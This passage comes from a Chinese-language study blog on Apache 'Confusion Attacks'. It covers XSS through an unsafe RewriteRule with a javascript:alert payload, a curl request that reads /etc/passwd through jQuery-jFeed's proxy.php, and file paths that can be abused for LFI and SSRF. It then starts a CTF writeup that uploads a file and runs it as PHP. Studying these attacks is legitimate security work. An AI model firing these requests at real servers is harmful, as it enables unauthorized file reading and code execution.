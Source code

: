 可以透過不安全的 `RewriteRule` 達成 XSS 攻擊：

```url
http://server/html/usr/share/libreoffice/help/help.html%3F?Version=javascript:alert(1)//
```

![alt](posts/2025-Apache-Confusion-Attacks/image4.webp)

Source: [https://blog.orange.tw/posts/2024-08-confusion-attacks-ch/](https://blog.orange.tw/posts/2024-08-confusion-attacks-ch/)

##### 3. LFI

如果伺服器安裝了一些套件，例如 JpGraph、jQuery-jFeed、WordPress 或 Moodle 外掛等，他們自帶的一些工具或文件也可以作為利用的對象，包含：

* `/usr/share/doc/libphp-jpgraph-examples/examples/show-source.php`
* `/usr/share/javascript/jquery-jfeed/proxy.php`
* `/usr/share/moodle/mod/assignment/type/wims/getcsv.php`

以下為透過 jQuery-jFeed 中 `proxy.php` 檔讀取任意檔案的請求範例：

```bash
$ curl http://server/html/usr/sharejavascript/jquery-jfeed/proxy.php%3F?url=/etc/passwd&foo
# the content of /etc/passwd
```

##### 4. SSRF

除此之外，也可以透過以下檔案進行 SSRF：

* `/usr/share/php/magpierss/scripts/magpie_debug.php`

## 參、深入學習

### 一、CTF 練習

為了達到自己嘗試實作的目的，我找到了在 STDiO24CTF 中的題目 [01_Confusion](https://drive.google.com/uc?id=1Ja7va0_gm2FDCf0ueVGKCIcff53Qoaew)，並成功取得 Flag，Writeup 如下：

:::tip STDiO24CTF 01_Confusion Writeup

1. 偵查：此網站提供了一個上傳檔案的功能，雖然有限制只能上傳 jpg、png、gif 或 bmp 格式的檔案，但不會利用檔案內容作為判斷依據。
2. 偵查：在 `default-site.conf` 中，使用了不安全的 `RewriteRule`，因此可存取 DocumentRoot 以外的其他路徑。並且在存取上傳的 Exploit 時，需要在結尾加上 `%3F.php`，使其以 PHP 進行解析執行。